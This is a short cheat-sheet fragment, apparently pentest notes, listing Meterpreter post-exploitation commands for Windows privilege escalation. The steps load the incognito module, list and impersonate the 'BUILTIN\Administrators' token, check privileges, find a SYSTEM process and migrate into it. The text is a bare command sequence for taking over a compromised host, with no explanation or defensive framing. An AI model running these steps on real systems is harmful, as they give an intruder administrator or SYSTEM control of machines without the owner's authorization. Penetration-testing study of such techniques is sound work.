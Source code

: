 
- use incognito || load incognito
- list_tokens -g  || list_tokens -u
- getprivs (to know your priviliges) 
- impersonate_token "BUILTIN\Administrators"
- getuid
- ps (to get process running ) || pgrep explorer (or any system process)
- migrate -N example.exe (example.exe should have system authority) 
